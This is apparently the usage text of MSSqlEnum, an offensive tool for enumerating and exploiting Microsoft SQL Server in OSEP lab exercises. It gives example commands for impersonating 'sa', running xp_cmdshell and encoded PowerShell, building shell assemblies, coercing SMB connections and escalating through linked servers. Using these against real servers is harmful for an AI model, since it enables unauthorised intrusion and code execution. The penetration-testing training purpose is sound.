 
             _____ _____ _____ _____ __    _____
            |     |   __|   __|     |  |  |   __|___ _ _ _____
            | | | |__   |__   |  |  |  |__|   __|   | | |     |
            |_|_|_|_____|_____|__  _|_____|_____|_|_|___|_|_|_|
                                 |__|
@SecurityIsAGame



MSSql enumeration made simple with all the commands required to help with the OSEP MSSQL lab machines.


The following are the commands that can be used to gather information to help with MSSQL pen test.



-getspn [spn]            : Enumerate SPN accounts of the domain, if spn is included then only search for that spn
Otherwise collect all SPN's
                           Example:  .\MSSqlEnum.exe -getspn MSSQLSvc






REQUIRED ARGUMENTS

-server                  : Enter the server name or IP of the MSSQL server that you want to connect to.
                           Example: .\MSSqlEnum.exe -server sql1.example.com




OPTIONAL ARGUMENTS

-db                      : The database name, if none is provided then 'master' will be used

-username [username]     : The username to use to authenticate to the server

-password [password]     : The password to use to authenticate to the server

-domain                  : If the domain is set then it will query in the specified domain


-getlinked [server]      : This gets linked servers to the specified server that you request.
                           If you leave it blank then local server is used.
                           
                           
-roles                   : Get the server role of the current user

-impersonation           : Get the allowed to impersonate user accounts for the current user on the local server

-output [filename]       : Write output to file, if no filename is specified then c:\windows\Temp\result.txt is used

-getusers                : Get the users on the local server

-impersonate [user]      : Try to impersonate as a different account on the local server,
                           if a user is not specified then 'sa' user is tried by default
                           
                           
-command [command]       : This will run a command using xp_cmdshell, must have execute privileges or be in sysadmin group
                           then it will attempt to run as the impersonated user.
                           You can run multi argument commands but has to be double quoted

                           Example: .\MSSqlEnum.exe -server dc01 -impersonate sa -command "ping 192.168.0.1"

                           Also possible to run powershell commands by encoding the powershell command as base64.
                           The base64 below has been reduced to fit on the screen.

                           Example: .\MSSqlEnum.exe -server dc01 -impersonate sa -command "powershell -enc IABJAEUAB4AHQAJwApACkA"

-sp [command]            : Create a stored procedure and use wscript to run shell commands.  Must have sa privileges for this to work.
                           Command must be in double quotes and escaped if required

                           Example: MSSqlEnum.exe -server dc01 -sp "ping 192.168.0.1"
                           Example: MSSqlEnum.exe -server dc01 -sp "cmd /c echo \"P@Wn3d!\" > c:\windows\temp\h4x3d.txt"

-asm [command]           : Create a custom assembly and run a basic shell to execute commands, if command is not provided then 'whoami' will be ran

-clearasm                : Clear assembly, useful if the asm command fails but still creates the assembly

-query [query]           : Execute a sql query on the database, if no query is added then @@version is ran

-smb [IP]                : Get the local server to connect to and SMB share, IP must be provided

-linkserver [a,b,c]      : Try and run a query/command on a linked server, if the -query parameter is not included then it will run 'SELECT @@version' by default.
                           If the -query parameter is included with -linkserver parameter then it will run the query value on the specified linkserver.
                         : if you want to run a system command using xp cmdshell through a linked server(s) then include the -command parameter
                         : instead of the -query parameter
                           in the -linkserver parameter include the links you want to run commands on in the correct order
                           this can be used for privilege escalation via linked server authentication misconfigurations.

                           Example: .\MSSqlEnum.exe -server appsrv01 -linkserver dc01,appsrv01 -command "whoami"
                           

-rpc                     : The argument will try to enable rpc out functionality on a linked server, requires sysadmin role
